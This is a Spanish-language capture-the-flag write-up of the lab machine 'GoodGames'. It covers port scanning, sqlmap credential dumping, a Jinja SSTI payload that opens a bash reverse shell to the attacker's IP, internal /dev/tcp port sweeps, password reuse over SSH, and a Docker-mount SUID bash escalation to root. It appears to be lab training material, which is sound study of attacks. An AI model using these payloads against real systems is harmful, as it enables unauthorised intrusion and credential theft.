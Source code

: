 ```yaml
---
description: '✍️ Autor: TheCyberGeek🔍 Dificultad: Fácil 📅 Fecha de creación: 24/01/2022'
---
```


# GoodGames

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.130
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1278).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.130
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1279).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 10.10.11.130
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1280).png" alt=""><figcaption></figcaption></figure>

Accedemos al puerto 80.

<figure><img src="../../.gitbook/assets/image (1281).png" alt=""><figcaption></figcaption></figure>

Es una página de Juegos y tiene un Login vamos a usar entonces SQLMap.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-22 100654.png" alt=""><figcaption></figcaption></figure>

Conocer las bases de datos.

```
sqlmap -u http://10.10.11.130 --forms --dbs --batch
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer las tablas de la base de datos objetivo.

```
sqlmap -u http://10.10.11.130 --forms -D main --tables --batch
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer las columnas de la tabla de la bases de datos objetivo.

```
sqlmap -u http://10.10.11.130 --forms -D main -T user --columns --batch
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer la información que hay en esas columnas.

```bash
sqlmap -u http://10.10.11.130 --forms -D main -T user -C name,id,email,password --dump --batch
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado unas credenciales aunque la contraseña al ser un hash la crackeamos.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Después de analizar el sitio web del perfil, encontramos un símbolo de configuración que nos redirige a una URL con un dominio diferente. Como primer paso, registraremos este nuevo dominio en el archivo `/etc/hosts`.

```bash
echo "10.10.11.130 internal-administration.goodgames.htb" >> /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con **Wappalyzer** se ejecuta **Python** por lo que parece una vulnerabilidad **SSTI**. Para ello realizamos la comprobación básica.

```
{{ 7 * 7 }}
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es vulnerable a **SSTI** por lo que realizamos un payload que contiene una Reverse Shell.

```
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"').read() }}
```

Nos ponemos en escucha.

```bash
nc -nlvp 4444
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.** No somos root de manera oficial.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La interfaz de red está conectada al adaptador de red interna con la dirección `172.19.0.2/16`, lo que nos permite comunicarnos con la red interna desde nuestra máquina de ataque a través de la red comprometida.

Para descubrir los hosts en la red interna, utilizamos el siguiente comando en una sola línea para realizar un escaneo de barrido:

```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done;
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Una vez identificado un objetivo, realizamos un escaneo de puertos con el siguiente comando:

```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comencé a buscar credenciales de SSH en la máquina y finalmente encontré la carpeta de un usuario dentro del directorio `/home`. Sin embargo, no encontré a `augustus` en el archivo `/etc/passwd`.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que el puerto 22 y 80 están abiertos, por lo que intentamos conectarnos por SSH con el usuario augustus utilizando la contraseña que habíamos encontrado previamente (superadministrator).

```bash
ssh augustus@172.19.0.1
whoami
augustus
```

Como el directorio home del usuario augustus está montado en el contenedor **Docker** y tenemos acceso como usuario **root**, podemos trasladar un binario con permisos **SUID** al home de **augustus** para escalar privilegios a root en el host.

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
bash  user.txt

root@3a453ab39d3d:/home/augustus chown root:root /home/augustus/bash  
root@3a453ab39d3d:/home/augustus chmod +s /home/augustus/bash

augustus@GoodGames:~$ ./bash -p
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) egid=0(root) groups=0(root),1000(augustus)
bash-5.1# whoami
root
```

Ahora que hemos logrado elevar nuestros privilegios a **root** en la máquina víctima, podemos proceder a leer la flag del usuario **root**.

<figure><img src="../../.gitbook/assets/image (1283).png" alt=""><figcaption></figcaption></figure>
